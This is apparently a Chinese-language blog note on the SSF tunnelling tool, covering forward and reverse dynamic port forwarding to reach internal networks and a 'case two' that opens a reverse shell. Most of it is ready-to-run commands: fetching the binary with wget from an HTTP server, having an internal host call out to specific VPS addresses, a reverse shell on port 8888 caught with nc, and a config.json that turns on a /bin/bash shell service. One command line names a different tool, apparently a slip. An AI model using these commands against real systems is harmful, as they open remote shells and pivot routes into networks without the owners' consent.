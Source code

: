 ```yaml
---
title: ssf反向动态转发与正向的区别&反弹shell
categories:
- tools
tags:
- tools
---
```

					   	                                   
## 正向动态转发（要访问的是ssfd服务端的网络）
当我们要去连接内网的时候，可以直接访问到

ssf服务端设置（访问这个网络）

```
./ssfd -p 1080
python -m SimpleHTTPServer 8000
wget -r http://192.168.28.148:8000/ssf

ssf客户端设置：
./ssf -D 1089 -p 8080 VPS-IP
```
## 反向动态转发（要访问的是ssf客户端的网络）
当我们要连接内网，但是无法直接访问内网机器。如果内网机器可以出网，那么就可以让内网机器来连我们。

```
vps上设置监听：
./ssfd -p 8080

内网机器来主动连接我们：
./ssf -F 1089 -p 8080 VPS-IP
./ssf -F 1089 -p 8080 18.167.19.3
```
## 案例一：访问谷歌
```
vps设置：./ssfd -p 8080
攻击机器设置：./exim -D 1089 -p 1080 18.167.19.3
proxychains firefox 
./ssf -D 1089 -p 8080 18.167.19.3
```
## 案例二：弹shell
### 反向shell

```
【vps设置】
./ssfd -p 8080 -c config.json /b

【目标机器】
./ssf -Y shell要接收的端口 VPS -c config.json -p VPS监听的端口

./ssf -Y 8888 45.62.123.226 -c config.json -p 8080
```
nc 127.0.0.1 8888

### config.json参考配置
```
{
  "ssf": {
    "arguments": "",
    "circuit": [],
    "tls" : {
      "ca_cert_path": "./certs/trusted/ca.crt",
      "cert_path": "./certs/certificate.crt",
      "key_path": "./certs/private.key",
      "key_password": "",
      "dh_path": "./certs/dh4096.pem",
      "cipher_alg": "DHE-RSA-AES256-GCM-SHA384"
    },
    "http_proxy" : {
      "host": "",
      "port": "",
      "user_agent": "",
      "credentials": {
        "username": "",
        "password": "",
        "domain": "",
        "reuse_ntlm": "true",
        "reuse_nego": "true"
      }
    },
    "services": {
      "datagram_forwarder": { "enable": true },
      "datagram_listener": {
        "enable": true,
		"shell": { "enable": false },
        "gateway_ports": false
      },
      "stream_forwarder": { "enable": true },
      "stream_listener": {
        "enable": true,
        "gateway_ports": false
      },
      "copy": { "enable": false },
      "shell": {
        "enable": true,
        "path": "/bin/bash",
        "args": ""
      },
      "socks": { "enable": true }
    }
  }
}
```
